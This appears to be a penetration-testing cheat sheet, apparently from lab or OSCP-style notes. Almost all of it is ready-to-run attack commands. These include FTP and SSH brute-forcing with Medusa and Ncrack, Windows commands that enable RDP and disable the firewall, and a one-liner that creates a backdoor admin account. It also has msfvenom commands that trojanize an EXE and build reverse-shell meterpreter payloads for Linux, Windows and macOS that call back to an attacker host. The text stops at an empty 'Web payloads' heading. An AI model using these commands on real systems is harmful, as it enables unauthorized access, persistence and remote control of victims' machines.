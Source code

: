 <b>Medusa</b>

	medusa -h 10.11.1.227 -U lab-users.txt -P lab-passwords.txt -M ftp | grep "ACCOUNT FOUND"

<b>Ncrack</b> (FTP, SSH, TELNET, HTTP(S), POP3(S), SMB, RDP, VNC)

	ncrack -U <[USERS_LIST]> -P <[PASSWORDS_LIST]> ftp://<[IP]>
	
# Firewall

<b>Enable Remote Desktop:</b>

	reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

	netsh firewall set service remotedesktop enable

<b>Enable Remote assistance:</b>

	reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f

	netsh firewall set service remoteadmin enable

<b>Disable firewall:</b>

	netsh firewall set opmode disable

<b>One shot ninja combo (New Admin User, Firewall Off + RDP):</b>

	set CMD "net user hacker Hacker123 /add & net localgroup administrators hacker /add & net localgroup \"Remote Desktop Users\" 	hacker /add & reg add \"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add \"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall set opmode disable"

# Backdooring EXE Files

	msfvenom -a x86 -x <[FILE]> -k -p windows/meterpreter/reverse_tcp lhost=10.11.0.88 lport=443 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o <[FILE_NAME]>

# Binaries payloads

<b>Linux:</b>
	
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f elf > <[FILE_NAME.elf]>

<b>Windows:</b>

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f exe > <[FILE_NAME.exe]>

<b>Mac</b>
	
	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f macho > <[FILE_NAME.macho]>

# Web payloads
